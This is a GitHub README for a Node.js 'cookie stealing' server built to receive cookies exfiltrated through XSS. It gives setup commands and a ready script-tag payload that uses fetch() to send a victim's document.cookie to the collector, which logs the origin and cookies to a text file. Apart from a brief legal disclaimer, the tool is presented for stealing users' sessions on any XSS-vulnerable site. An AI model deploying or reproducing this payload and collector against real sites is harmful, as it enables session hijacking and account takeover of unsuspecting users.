

<!--
*** Thanks to Best-README-Template (https://github.com/othneildrew/Best-README-Template)
-->

[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/ruigomes99/cookie-stealing">
    
  </a>

  <h3 align="center">Cookie Stealing</h3>

  <p align="center">
    An awesome API to collect cookies!
    <br />
    <a href="https://github.com/ruigomes99/cookie-stealing">View Demo</a>
    ·
    <a href="https://github.com/ruigomes99/cookie-stealing/issues">Report Bug</a>
    ·
    <a href="https://github.com/ruigomes99/cookie-stealing/issues">Request Feature</a>
  </p>
</p>


<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#setup-your-workstation">Setup Your Workstation</a></li>
        <li><a href="#quick-start">Quick Start</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>


<!-- ABOUT THE PROJECT -->
## About The Project

There is a lot of tools to view the details of web cookies, but while I was testing XSS in my own personal projects I felt the need to store the cookies in order to steal the session from the user. So, I built this small project. His only purpose is to write a ".txt" about every unprotected cookie in detail.

### Built With

* [NodeJS](https://nodejs.org)


<!-- GETTING STARTED -->
## Getting Started

### Setup Your Workstation

- Install Node.js and npm to your local workstation

### Quick Start

1. Clone the repository:
```shell
git clone https://github.com/ruigomes99/cookie-stealing.git
```
2. Change directory:
```shell
cd cookie-stealing
```
3. Install dependencies:
```shell
npm install
```
4. Start the server:
```shell
npm start
```
5. Go at 'http://127.0.0.1:3000' and verify if you receive the "Hello World" message in your browser.


<!-- USAGE EXAMPLES -->
## Usage

IMPORTANT: This code is just for test propose and using this in third party websites in order to benefit yourself is punish as a cybersecurity crime.
<br />You can use this code on any website that allows XSS.
<br />You only need to do a GET request like this one:

```javascript
  <script> fetch('http://127.0.0.1:3000/cookies/' + document.cookie) </script>
```

This route receives a parameter called 'cookies'. In order to get the unprotected (httpOnly=false) cookies, you only need to use 'document.cookie' inside a `<script>` tag.
<br />After the GET request, the server will create or update a ".txt" file called cookies in the high-level path of the repository folder.
<br />This "cookies.txt" file contains the timestamp of the request, the origin URL and every unprotected cookie separated with paragraphs.


<!-- ROADMAP -->
## Roadmap

See the [open issues](https://github.com/ruigomes99/cookie-stealing/issues) for a list of proposed features (and known issues).


<!-- CONTRIBUTING -->
## Contributing
Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.
1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request


<!-- LICENSE -->
## License

Distributed under the MIT License. See [MIT LICENSE](https://choosealicense.com/licenses/mit/) for more information.


<!-- CONTACT -->
## Contact

Rui Gomes -  [GitHub](https://github.com/ruigomes99) - ruigomes-99@hotmail.com
<br />Project Link: [https://github.com/ruigomes99/cookie-stealing](https://github.com/ruigomes99/cookie-stealing)


<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/ruigomes99/cookie-stealing.svg?style=for-the-badge
[contributors-url]: https://github.com/ruigomes99/cookie-stealing/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/ruigomes99/cookie-stealing.svg?style=for-the-badge
[forks-url]: https://github.com/ruigomes99/cookie-stealing/network/members
[stars-shield]: https://img.shields.io/github/stars/ruigomes99/cookie-stealing.svg?style=for-the-badge
[stars-url]: https://github.com/ruigomes99/cookie-stealing/stargazers
[issues-shield]: https://img.shields.io/github/issues/ruigomes99/cookie-stealing.svg?style=for-the-badge
[issues-url]: https://github.com/ruigomes99/cookie-stealing/issues
[license-shield]: https://img.shields.io/github/license/ruigomes99/cookie-stealing.svg?style=for-the-badge
[license-url]: https://github.com/ruigomes99/cookie-stealing/blob/main/LICENSE